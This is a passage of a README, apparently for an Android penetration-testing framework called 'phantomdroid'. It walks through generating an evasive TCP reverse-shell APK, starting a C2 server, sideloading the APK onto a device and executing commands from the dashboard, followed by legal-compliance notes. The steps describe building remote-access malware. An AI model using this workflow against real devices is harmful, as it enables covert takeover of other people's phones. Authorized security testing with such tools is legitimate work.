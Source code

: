 ### For External Testing (With Permission)
```bash
# Use your public IP or VPS
# Example: your-server.com or public IP
```

## 🎯 Complete Workflow Example

```bash
# 1. Start framework
./phantomdroid.sh

# 2. Generate payload (Option 1)
#    - Type: TCP Reverse Shell
#    - LHOST: 192.168.1.100
#    - LPORT: 4444
#    - Evasion: High

# 3. Start C2 server (Option 6)
#    - Port: 8080
#    - Protocol: HTTP/HTTPS

# 4. Install generated APK on test device
#    - Enable "Unknown sources"
#    - Install phantom_tcp_*.apk

# 5. Monitor C2 dashboard
#    - Open http://localhost:8080
#    - View active sessions
#    - Execute commands
```

## ⚠️ Important Notes

### Legal Compliance
- ✅ Only use on devices you own
- ✅ Obtain written permission for testing
- ✅ Follow local laws and regulations
- ❌ Never use on unauthorized systems

### Security
- Use isolated test networks
- Don't test on production systems
- Secure your testing environment
- Document all activities

## 🆘 Support

If you encounter issues:
